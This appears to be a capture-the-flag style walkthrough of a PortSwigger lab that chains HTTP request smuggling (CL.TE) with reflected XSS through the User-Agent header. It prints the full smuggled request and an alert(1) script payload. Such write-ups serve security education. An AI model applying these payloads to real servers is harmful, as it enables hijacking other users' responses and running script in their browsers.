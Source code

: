 # Exploiting HTTP request smuggling to deliver reflected XSS

## This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## The application is also vulnerable to [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) via the `User-Agent` header.

## To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.

step 1

```
Content-Length: 116
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](./images/images_lab10/lab10_test_first_payload.png)

step 2

inspect comment section

![screenshot](./images/images_lab10/lab10_inspect_comment_section.png)

step 3
intercept post

![screenshot](./images/images_lab10/lab10_intercept_post_containng_comment.png)

step 4
add payload
`"><script>alert(1)</script><"` into User-Agent

![screenshot](./images/images_lab10/lab10_add_alert_payload.png)

after forward request your browser come with pop up

![screenshot](./images/images_lab10/lab10_alert_pop_up.png)

inspect the pop up element

![screenshot](./images/images_lab10/lab10_inspect_element_alert_pop_up.png)

step 5
final payload to solve lab

```
Content-Length: 116
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: "><script>alert(1)</script><"
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=test
```

![screenshot](./images/images_lab10/lab10_final_payload.png)

![screenshot](./images/images_lab10/lab10_lab_solved.png)
